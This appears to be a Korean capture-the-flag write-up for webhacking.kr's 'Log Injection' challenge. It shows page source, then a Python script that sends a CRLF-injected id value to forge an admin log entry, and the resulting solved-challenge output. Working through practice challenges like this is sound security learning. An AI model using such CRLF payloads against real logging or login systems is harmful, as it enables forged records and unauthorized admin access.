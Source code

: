 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

***


# **Description**

![](images/2022-01-03-12-03-24.png)


# **Write-Up**

페이지 소스를 보면 admin.php라는 파일이 있음을 알 수 있다.

```html
<html>
<head>
<title>Challenge 38</title>
</head>
<body>
<h1>LOG INJECTION</h1>
<form method=post action=index.php>
<input type=text name=id size=20>
<input type=submit value='Login'>
</form>
<!-- <a href=admin.php>admin page</a> -->
</body>
</html>
```

admin.php로 접근해 보자.

![](images/2022-01-03-12-03-47.png)

index.php에서 데이터를 넣으면 admin.php에 찍히는 것으로 보이고, SQLi는 안되고 '/'문자도 필터링 된다.

![](images/2022-01-03-12-03-52.png)

CRLF Injection을 통해서 admin으로 로그인 해보자.

> [CRLF Injection](https://owasp.org/www-community/vulnerabilities/CRLF_Injection#)

```python
import urllib.request

CHALLENGE   = 'https://webhacking.kr/challenge/bonus-9/index.php'
SESSION_ID  = 'kbkqoa8a3tuso86knlnkpog5ai'
headers     = {'Cookie':'PHPSESSID='+SESSION_ID}
data        = urllib.parse.urlencode({'id':'guest\r\n61.251.215.194:admin'}).encode()
request     = urllib.request.Request(url=CHALLENGE, headers=headers, data=data)
response    = urllib.request.urlopen(request)
result      = response.read().decode()

CHALLENGE   = 'https://webhacking.kr/challenge/bonus-9/admin.php'
request     = urllib.request.Request(url=CHALLENGE, headers=headers)
response    = urllib.request.urlopen(request)
result      = response.read().decode()
print(result)

[Output]
... 생략 ...
<script>alert('old-38 Pwned!');</script><hr>old-38 Pwned. You got 10point. Congratz!<hr>
```